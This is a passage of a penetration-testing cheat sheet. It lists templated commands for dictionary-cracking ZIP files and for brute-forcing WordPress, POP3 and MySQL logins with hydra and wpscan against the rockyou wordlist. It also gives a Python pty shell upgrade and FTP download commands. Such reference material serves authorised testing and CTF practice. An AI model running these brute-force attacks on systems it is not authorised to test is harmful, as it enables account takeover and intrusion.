 ```
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' {ZIP_FILE}
```

<a name="WordPressLogin"></a>
### WordPress Login

```
hydra -l {USER} -P /usr/share/wordlists/rockyou.txt -vV -f -t 4 {TARGET} http-post-form "/weblog/wp-login.php:log=^USER^&pwd=^PASS^:login_error"
```

```
wpscan --url {TARGET} -U {USERS_LIST} -P /usr/share/wordlists/rockyou.txt
```

<a name="Pop3"></a>
### Pop3 - Mail Server

```
hydra -l {USER} -P /usr/share/wordlists/rockyou.txt {TARGET} -f pop3
```

<a name="MySQL"></a>
### MySQL

```
hydra -l {USER} -P /usr/share/wordlists/rockyou.txt {TARGET} -f -t 32 mysql
```

<a name="ShellSpawn"></a>
# Shell Spawn

<a name="Python"></a>
### Python

```
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

<a name="FTP"></a>
# FTP

```
# Access
ftp {TARGET}

# Download file to current directory
ftp> ls
ftp> get {FILE}

# Download multiples file to current directory
ftp> mget {DIRECTORY}

# pwd
ftp> pwd
```
